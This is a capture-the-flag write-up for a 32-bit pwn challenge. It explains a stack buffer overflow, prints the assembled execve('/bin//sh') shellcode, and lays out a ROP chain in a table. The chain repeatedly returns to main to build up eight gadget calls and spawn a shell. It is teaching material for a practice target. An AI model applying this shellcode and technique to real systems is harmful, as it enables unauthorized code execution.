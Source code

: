 # Where we roppin boys?
__Category__: Pwn   
__Points__: 350  

> Forknife is still a thing right?
>
> nc ctf.umbccd.io 4100  
>
> Author: trashcanna
>
> Attachement: [rop](./rop)

### Overview
We were given a 32-bit executable with canaries and PIE disabled.  
The main functionality of the binary includes only 3 small functions:   
![](./img/functions.png)   
The vulnerability is highlighted in red. `tryme` stores up to 25 bytes   
into an 8-byte buffer leading to a classical stack-buffer overflow.   
Unfortunately 25 bytes allow only very limited exploitation, in fact  
if we look at the stackframe of `tryme` the overflow allows us to place  
a maximum of only 2 ROP-gadgets.   
   
   
Stackframe of `tryme`:   
| Offset  | Content        | Size | 
|--------|----------------|------|
| -0x4   | Return pointer | 4    |
| -0x8   | Saved ebp      | 4    |
| -0xc   | Saved ebx      | 4    |
| -0x14  | input          | 8    |

### Hidden Functionalities
Looking at the symbol table we can see that the binary contains a lot of functions   
that don't get called:   
![](./img/hidden.png)

The first 7 functions set the shellcode up, which was mmaped earlier in `welcome`.   
Each of these functions appends 4 specific bytes to the shellcode.    
The last function `win` takes the shellcode and executes it.  
After puzzling a bit we can get the following shellcode
```
0:    31 c0                   xor    eax, eax
2:    50                      push   eax
3:    68 2f 2f 73 68          push   0x68732f2f
8:    68 2f 62 69 6e          push   0x6e69622f
d:    89 e3                   mov    ebx, esp
f:    89 c1                   mov    ecx, eax
11:   89 c2                   mov    edx, eax
13:   b0 0b                   mov    al, 0xb
15:   cd 80                   int    0x80
17:   31 c0                   xor    eax, eax
19:   40                      inc    eax
1a:   cd 80                   int    0x80
```
with the following order:
1. tilted_towers
2. junk_junction
3. snobby_shores
4. greasy_grove
5. lonely_lodge
6. dusty_depot
7. loot_lake

So our task is to create a ROP-chain that calls these 7 functions  
in exactly that order followed by a call to `win` to get a shell.   
But we can place only 2 ROP-gadgets so how do we execute 8?

### Expanding our possibilities
If we take a look at the disassembly of `main`:
![](./img/main.png)
We can see that a `CALL tryme` follows an `AND ESP, 0xfffffff0`.  
If we take the stackframe of `tryme` from above and add some stack  
addresses we get the following stack layout (where *x* stands for a random byte):

| Address    | Offset  | Content           | Size |
|------------|--------|-------------------|------|
| *xxxxxxx*0 | -0x0   | Aligned by `main` |      |
| *xxxxxxx*C | -0x4   | Return pointer    | 4    |
| *xxxxxxx*8 | -0x8   | Saved ebp         | 4    |
| *xxxxxxx*4 | -0xc   | Saved ebx         | 4    |
| *xxxxxxx*0 | -0x10  | input + 4         | 4    |
| *xxxxxxx*C | -0x14  | input + 0         | 4    |

If we now overwrite the return pointer of `tryme` with the address  
of `main` (0x08049714) we can cause a second alignment, this time at address  
*xxxxxxx*C moving the stack pointer all the way down to `input + 4` preserving  
everything else in `tryme`'s stackframe.  
After that `main` calls `tryme` again overwriting `input + 0` with the return  
address for `tryme`.   
We then have *again* the possibility to do a buffer-overflow.  
If we repeat this multiple times we can force the stackpointer to go down preserving   
the stackframes we wrote to.  
This is the setup for our ROP-chain.

### Crafting an exploit
The exploit strategy is to create the following stack layout  
by repeatedly calling main through the buffer-overflows:

| Offset | Stackframe Layout          | Size | ROP-gadget       |  Nesting Level |
|--------|----------------------------|------|------------------|----------------|
| -0x0   | Aligned by `main`          | 4    | __win()__          | main           |
| -0x4   | Return pointer             | 4    | main()           | 1. tryme       |
| -0x8   | Saved ebp                  | 4    | *garbage*        | 1. tryme       |
| -0xc   | Saved ebx                  | 4    | pop ebx; pop ebp | 1. tryme       |
| -0x10  | input + 4                  | 4    | *garbage*        | 1. tryme       |
| -0x14  | input + 0 / Return Pointer | 4    | main()           | 1./2. tryme    |
| |
| -0x18  | Saved ebp                  | 4    | pop ebx; pop ebp | 2. tryme       |
| -0x1c  | Saved ebx                  | 4    | __dusty_depot()__    | 2. tryme       |
| -0x20  | input + 4                  | 4    | *garbage*        | 2. tryme       |
| -0x24  | input + 0 / Return Pointer | 4    | main()           | 2./3. tryme    |
| |
| -0x28  | Saved ebp                  | 4    | pop ebx; pop ebp | 3. tryme       |
| -0x2c  | Saved ebx                  | 4    | __lonely_lodge()__   | 3. tryme       |
| -0x30  | input + 4                  | 4    | *garbage*        | 3. tryme       |
| -0x34  | input + 0 / Return Pointer | 4    | main()           | 3./4. tryme    |
| ...    | ...                        | ...  | ...              | ...            |
| -0x74  | input + 0 / Return Pointer | 4    | pop ebx          | 7./8. tryme    |
| -0x78  | Saved ebp                  | 4    | *garbage*        | 8. tryme       |
| -0x7c  | Saved ebx                  | 4    | *garbage*        | 8. tryme       |
| -0x8C  | input                      | 8    | *garbage*        | 8. tryme       |

Note how here the last function before `win` is `dusty_depot` and not `loot_lake`   
because if you leave out the last 4 bytes of the shellcode you still get a valid   
execve() and this makes the ROP-chain a bit shorter.

### Profit
[exploit.py](./exploit.py) executes the exploit as described above and we get
```
DawgCTF{f0rtni9ht_xD}
```
